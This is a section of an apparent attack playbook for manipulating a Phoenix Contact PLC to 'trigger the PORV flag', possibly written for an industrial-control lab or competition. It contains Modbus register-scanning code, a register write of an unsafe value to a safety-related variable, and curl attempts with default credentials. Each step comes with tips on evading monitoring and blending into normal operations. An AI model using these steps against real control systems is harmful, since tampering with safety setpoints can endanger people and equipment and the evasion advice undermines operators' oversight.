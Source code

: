 ## 6. PLC Analysis and Manipulation

The ultimate goal is to trigger the PORV flag on the Phoenix Contact PLC.

- **PLC Program Analysis**: Understand the PLC logic before attempting manipulation.
  - **Tools**: Protocol-specific tools, Wireshark
  - **Evasion Tip**: Focus on understanding normal operations first. Look for safety-related variables and conditions.

- **Identifying Critical Variables**: Find variables related to the PORV flag and safety systems.
  - **Tools**: Protocol-specific read commands
  - **Example (Modbus Register Scan)**:
    ```python
    # Scan for interesting registers (simplified example)
    from pymodbus.client.sync import ModbusTcpClient
    client = ModbusTcpClient('<plc_ip>')
    for address in range(0, 1000, 10):  # Read in batches to reduce traffic
        result = client.read_holding_registers(address, 10)
        if not result.isError():
            print(f"Address {address}: {result.registers}")
    client.close()
    ```
  - **Evasion Tip**: Read operations are generally less monitored than write operations. Scan slowly and methodically.

- **Manipulating PLC State**: Once critical variables are identified, manipulate them to trigger the PORV flag.
  - **Tools**: Protocol-specific write commands
  - **Example (Modbus Write Single Register)**:
    ```python
    from pymodbus.client.sync import ModbusTcpClient
    client = ModbusTcpClient('<plc_ip>')
    # Write to a specific register to change a setpoint or state
    client.write_register(address=<critical_register>, value=<unsafe_value>)
    client.close()
    ```
  - **Evasion Tip**: Make minimal, targeted changes. Consider timing your changes during normal operational changes to blend in. Avoid making multiple changes in rapid succession.

- **Exploiting PLC Vulnerabilities**: Phoenix Contact PLCs may have specific vulnerabilities.
  - **Tools**: Research-based, protocol-specific
  - **Example (Web Interface Exploitation)**:
    ```bash
    # Check for default web interface
    curl -s http://<plc_ip>/
    
    # Try default credentials
    curl -s -d "username=admin&password=admin" http://<plc_ip>/login
    ```
  - **Evasion Tip**: Targeted exploitation is generally less noisy than scanning or brute forcing.
